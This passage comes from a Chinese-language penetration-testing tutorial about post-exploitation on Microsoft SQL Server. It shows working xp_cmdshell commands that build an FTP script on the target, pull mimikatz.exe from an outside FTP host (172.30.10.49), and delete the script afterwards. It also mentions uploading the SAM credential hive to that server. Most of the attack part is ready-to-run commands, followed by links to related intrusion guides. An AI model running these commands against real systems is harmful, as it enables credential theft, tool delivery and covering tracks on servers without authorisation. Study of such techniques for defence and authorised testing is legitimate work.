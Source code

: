 
3、执行后sam.hive将被上传至ftp服务器根目录。  
4、删除目标机器上的ftp.txt
```
exec master..xp_cmdshell 'del c:\ftp.txt'
```

##### （二）利用ftp把文件下载至目标机器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
GET mimikatz.exe 
```
依次执行如下命令  
```
exec master..xp_cmdshell 'echo open 172.30.10.49 21> c:\ftp.txt'
exec master..xp_cmdshell 'echo admin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo admin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo bin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo GET mimikatz.exe>> c:\ftp.txt'
```
注意">、>>"前面不能有空格。  
2、执行ftp命令  
```
exec master..xp_cmdshell 'ftp -s:c:\ftp.txt'
```
3、执行后mimikatz.exe将被下载到目标机器c盘根目录。  

### \#0x07 参考
* [SqlServer SA 弱口令提权](https://www.zybuluo.com/websec007/note/764912)
* [[译]获取Windows口令](http://itindex.net/detail/51189-windows-口令)  
* [导出系统注册表抓Hash的思路整理](http://blog.51cto.com/tsingfu/305908)  
* [Security Accounts Manager](http://www.beginningtoseethelight.org/ntsecurity/index.htm)  
* [渗透技巧——通过cmd上传文件的N种方法](http://drops.wooyun.org)  
* [下载文件的15中方法](http://drops.wooyun.org/tips/2420)
